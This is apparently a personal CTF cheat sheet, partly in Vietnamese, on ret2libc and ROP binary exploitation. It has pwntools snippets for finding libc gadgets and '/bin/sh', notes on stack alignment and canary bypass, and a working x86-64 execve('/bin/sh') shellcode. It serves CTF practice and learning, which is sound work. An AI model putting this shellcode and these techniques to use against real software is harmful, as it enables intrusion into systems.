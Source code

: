 # Ret2LIBC-ROP

## [0] Overview:
- pwntools '/bin/sh':
```python
next(libc.search(b'/bin/sh'))
```
- [Tools local find offset LIBC](https://x3ero0.tech/posts/orxw_balsn_ctf_2021_pwn/) .
- Để ý một số bài có thể sử dụng one_gadget kết hợp với đối số của các hàm bị ghi đè khi gọi tới.
- Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets.
    * VD: `syscall ; ret` [dicectf 2023 - bop].
    * gadget push rax;ret
    * jmp rsp
    * ...
```python
import pwn
rop = pwn.ROP(libc, base=<address_overwrite>)
rop.call(rop.find_gadget(["syscall", "ret"]))
print(rop.dump())
```
- Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
```
STACK:
1. địa chỉ lệnh "ret"
2. địa chỉ lệnh "pop rdi, ret"
3. địa chỉ lưu chuỗi 
4. địa chỉ hàm gets

5. địa chỉ lệnh "ret"
6. địa chỉ lệnh "pop rdi, ret"
7. địa chỉ muốn được in (đọc chuỗi)
8. địa chỉ hàm printf 
# leak = printf thì sau printf lại phải dùng ret
9. địa chỉ lệnh "ret"
10. địa chỉ nào đó muốn return về.
```
- Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, -, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF .
- Leak được LIBC thì có thể leak được stack thông qua biến environ trong LIBC.
- Viết sheelcode cần set context.binary

```python
...
elf = ELF('./vuln')
context.binary = elf
p = elf.process()
...

shellcode = asm('''
        instruction assembly
        ...
''')

OR

context.arch = 'amd64'
shellcode = asm(
    f'''
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    xor rsi, rsi
    xor rax, rax
    add al, 0x3b
    syscall
    ''')
```

- `Chall pwn07 - whitehat`: Dùng dup2(0, 1) để mở lại stdout, leak giá trị.

## [1] Technique:
- [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
- [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
- BRUTEFORCE - `TWOSHOT - KMACTF2022`
- ...

